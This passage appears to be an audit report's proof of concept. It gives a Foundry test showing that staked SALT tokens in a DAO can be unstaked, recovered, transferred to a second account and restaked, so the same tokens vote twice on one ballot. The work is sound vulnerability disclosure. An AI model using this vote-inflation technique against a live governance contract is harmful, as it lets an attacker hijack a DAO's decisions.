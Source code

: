 ## Proof of Concept
Add the following tests inside `src/dao/tests/DAO.t.sol` and run via `COVERAGE="yes" NETWORK="sep" forge test -vv --rpc-url https://rpc.ankr.com/eth_sepolia --mt test_unstakingManipulatesVotingPower` to see the test pass:
```js
  function test_unstakingManipulatesVotingPower() public {
    // @audit-info : Pre-requisite for the attack `StakingConfig.minUnstakeWeeks <= ballotMinimumDuration`. Either
    // increase `ballotMinimumDuration` to 14 days OR decrease `StakingConfig.minUnstakeWeeks` to 1 week.
    vm.startPrank( address(dao) );
    daoConfig.changeBallotDuration(true);
    daoConfig.changeBallotDuration(true);
    daoConfig.changeBallotDuration(true);
    daoConfig.changeBallotDuration(true);
    assertEq(daoConfig.ballotMinimumDuration(), 14 days, "ballot duration != 14 days");
    vm.stopPrank();

    deal(address(salt), address(DEPLOYER), 6_000_000 ether);
    vm.prank(DEPLOYER);
    staking.stakeSALT(6_000_000 ether);

    // Set up the parameters for the proposal
    uint256 proposalNum = 0; // Assuming an enumeration starting at 0 for parameter proposals
    uint256 ballotID = 1;

    // Alice stakes her SALT to get voting power
    uint256 aliceStakedAmount = 650_000 ether;
    deal(address(salt), address(alice), aliceStakedAmount);

    vm.startPrank(alice);
    staking.stakeSALT(aliceStakedAmount);
    // Propose a parameter ballot
    proposals.proposeParameterBallot(proposalNum, "Increase max pools count");
    // Alice casts a vote, but not enough for quorum
    // minQuorum required = 10% of (6_000_000 + 650_000) ether = 665_000 ether
    proposals.castVote(ballotID, Vote.INCREASE);
    assertEq(proposals.votesCastForBallot(ballotID, Vote.INCREASE), aliceStakedAmount);
    vm.stopPrank();

    // Following activities done before anyone calls `finalizeBallot()`
    // Alice partially unstakes her SALT
    vm.startPrank(alice);
    uint256 unstakeID = staking.unstake(aliceStakedAmount, 2); // Alice will receive 130_000 ether of salt back
    skip(14 days);
    staking.recoverSALT(unstakeID); // Alice will receive 130_000 ether of salt back
    salt.transfer(address(bob), 130_000 ether); // Alice transfers the salt to Bob
    vm.stopPrank();

    // Bob stakes and casts vote
    vm.startPrank(bob);
    salt.approve(address(staking), 130_000 ether);
    staking.stakeSALT(130_000 ether);
    proposals.castVote(ballotID, Vote.INCREASE);
    vm.stopPrank();
    assertEq(proposals.votesCastForBallot(ballotID, Vote.INCREASE), aliceStakedAmount + 130_000 ether); // @audit : votes incremented
  }
```
